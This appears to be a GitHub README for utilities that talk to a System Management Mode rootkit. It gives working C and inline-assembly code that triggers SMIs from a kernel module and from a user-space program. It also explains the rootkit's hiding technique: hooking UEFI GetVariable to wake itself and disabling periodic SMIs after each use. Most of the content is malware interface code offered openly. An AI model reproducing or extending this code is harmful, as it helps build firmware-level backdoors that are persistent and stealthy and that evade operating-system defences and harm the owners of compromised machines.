 # SmmBackdoorApi

This is a set of utilities used to develop and test the simple SMM backdoor I was creating in another repository. It consist of 3 modules each for a different environment: one for ring 0 kernel module, another for rong 0 UEFI application and ring 3 app.

## Ring 0 LKM

Triggering SMM from ring 0 is as simple as just executing `outb 0xb2, <some byte>` instruction. It immediately generates SMI and it always works independently from the OS.

```c
static void smm_backdoor_call(struct BackdoorParams* params) {

    const uint16_t SMM_PORT = 0xB2;
    const uint8_t SMI_BACKDOOR_SMI = API_BACKDOOR_CALL;

    asm volatile (
        "                        \n\
            mov %6, %%rsi        \n\
            mov %7, %%rdi        \n\
            mov %8, %%rcx        \n\
            mov %9, %%rdx        \n\
            mov %10, %%r8        \n\
            mov %11, %%r9        \n\
            outb %12, %13        \n\
            mov %%r9 , %5        \n\
            mov %%r8 , %4        \n\
            mov %%rdx, %3        \n\
            mov %%rcx, %2        \n\
            mov %%rdi, %1        \n\
            mov %%rsi, %0        \n\
        "
        :   "=m"(params->r[0]), "=m"(params->r[1]), "=m"(params->r[2]), \
            "=m"(params->r[3]), "=m"(params->r[4]), "=m"(params->r[5])
        :   "m"(params->r[0]), "m"(params->r[1]), "m"(params->r[2]),    \
            "m"(params->r[3]), "m"(params->r[4]), "m"(params->r[5]),    \
            "a"(SMI_BACKDOOR_SMI), "Nd"(SMM_PORT)
        :   "rsi", "rdi", "rcx", "rdx", "r8", "r9"
    );
}
```

## Ring 3 application

The rootkit I created relies on a simple design where the calling application busy loops and a periodic SMI is used to read arguments and write back results. This has an obvious flaw as every OS during boot reconfigures the APIC and disables any periodic SMI. To counter that the backdoor creates a special UEFI variable and hooks the GetVariable UEFI function to wake itself up. Upon wake up event the rootkit registers the periodic interrupt again to handle requests and disables it immediately after
to stay hidden.

```c++
void BackdoorApi::smm_call(BackdoorApi::Params& params) const {
    
    if (needs_wakeup)
        do_wakeup();

    asm volatile (
        "                        \n\
            mov %6, %%rsi        \n\
            mov %7, %%rdi        \n\
            mov %8, %%rcx        \n\
            mov %9, %%rdx        \n\
            mov %10, %%r8        \n\
            mov %11, %%r9        \n\
                                 \n\
            xor %%rax, %%rax     \n\
        backdoor_loop_%=:        \n\
            test %%rax, %%rax    \n\
            jz backdoor_loop_%=  \n\
                                 \n\
            mov %%r9 , %5        \n\
            mov %%r8 , %4        \n\
            mov %%rdx, %3        \n\
            mov %%rcx, %2        \n\	
            mov %%rdi, %1        \n\
            mov %%rsi, %0        \n\
        "
        :   "=g"(params.r[0]), "=g"(params.r[1]), "=g"(params.r[2]), \
            "=g"(params.r[3]), "=g"(params.r[4]), "=g"(params.r[5])
        :   "g"(params.r[0]), "g"(params.r[1]), "g"(params.r[2]),    \
            "g"(params.r[3]), "g"(params.r[4]), "g"(params.r[5])   
        :    "rsi", "rdi","rcx", "rdx", "r8", "r9", "rax"
    );
}
```

## UEFI application

This was just a simple test for the ring 3 api before the wakeup functionality was ready. The code for is is just like above.

